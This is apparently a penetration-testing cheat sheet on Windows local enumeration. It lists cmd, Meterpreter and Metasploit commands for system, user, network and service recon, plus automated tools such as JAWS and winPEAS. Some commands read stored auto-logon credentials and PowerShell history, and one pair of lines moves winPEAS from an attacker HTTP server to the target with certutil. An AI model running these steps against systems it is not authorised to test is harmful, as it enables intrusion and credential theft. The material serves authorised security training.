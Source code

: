 # Windows - Local Enumeration

### Manual Windows Local enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic product get name,version,vendor # all software with version in the machine

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

{% code title="Cmd" %}
```bash
whoami
whoami /all
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME # view users in the group
net localgroup administrators # view user in administrators's group
```
{% endcode %}

{% code title="Meterpreter" %}
```bash
getuid
getprivs
```
{% endcode %}

{% code title="msfconsole" %}
```bash
use post/windows/gather/enum_logged_on_users
set sessions N
run
```
{% endcode %}

### Network information

{% code title="Cmd" %}
```bash
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```
{% endcode %}

### Processes & Services

{% code title="Meterpreter session" %}
```bash

ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```
{% endcode %}

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



### Auto Logon credentials

{% code title="Cmd" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
{% endcode %}



### Juicy Directory

```bash
cd C:\ # look for some custom directory
cd C:\Users\*\Documents
cd C:\Users\*\Desktop
cd C:\Users\*\Download
```



### Windows Permission

To check the permission for file/directory follow this commands:

```powershell
# see permission
icacls DIRECTORY/FILE

# change the permission
icacls "path" /grant UserOrGroup:PERMS
```

<details>

<summary>Windows Permission Legenda</summary>



| Permission Name          | Applies To       | icacls Code | Description                                                           |
| ------------------------ | ---------------- | ----------- | --------------------------------------------------------------------- |
| **Full Control**         | File / Directory | **F**       | Grants all permissions including changing ownership and permissions.  |
| **Modify**               | File / Directory | **M**       | Read, write, execute, delete. Cannot change permissions or ownership. |
| **Read & Execute**       | File / Directory | **RX**      | View and execute files; traverse folders.                             |
| **List Folder Contents** | Directory        | **(RX)**    | Same as Read & Execute, shown as RX in parentheses for folders.       |
| **Read**                 | File / Directory | **R**       | View data and attributes.                                             |
| **Write**                | File / Directory | **W**       | Write data, create files/folders.                                     |





| `(OI)` | Object Inherit — applies to files                  |
| ------ | -------------------------------------------------- |
| `(CI)` | Container Inherit — applies to folders             |
| `(IO)` | Inherit Only — permission applies to children only |
| `(N)`  | No Propagate Inherit                               |
| `(I)`  | Inherited permission                               |

</details>



### Recycle Bin

Lookin up into the Recycle Bin in the `C:\` directory.

```powershell
cd C:\
Get-ChildItem -force

cd '.\$RECYCLE.BIN'
gci -force

cd SID
gci -force
```





## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
